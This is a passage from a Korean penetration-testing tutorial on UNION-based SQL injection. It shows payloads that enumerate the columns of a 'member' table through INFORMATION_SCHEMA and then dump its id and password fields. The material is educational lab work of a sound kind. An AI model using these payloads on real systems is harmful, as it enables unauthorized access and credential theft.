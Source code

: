 위와 같은 과정을 거쳐 앞서 언급한 `member` 테이블이 실제로 존재함을 확인하였다. 이제 해당 테이블에 정의되어 있는 컬럼들의 이름을 추출하는 작업을 수행해 보자.

`member` 테이블의 컬럼명을 조회하는 쿼리는 다음과 같다.

```sql
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
WHERE TABLE_NAME = 'member';
```

마찬가지 방식으로 `Over%' union select 1, 2, 3, column_name from information_schema.columns where table_name = 'member'#`를 입력해 보자.

![컬럼 이름 추출](/data/Penetration%20Testing%20|%20Week%206/13.png)

`member` 테이블에 존재하는 컬럼들을 확인할 수 있다.

여섯 번째 단계에서는 이와 같이 `INFORMATION_SCHEMA.COLUMNS` **테이블을 활용해 지정된 테이블에 존재하는 컬럼의 이름을 추출한다.**

<br>

**7. 데이터 추출**

일련의 절차를 모두 수행한 뒤에는 `Over%' union select 1, 2, id, pass from member#`와 같은 페이로드를 통해 최종적으로 원하는 데이터를 추출할 수 있게 된다.

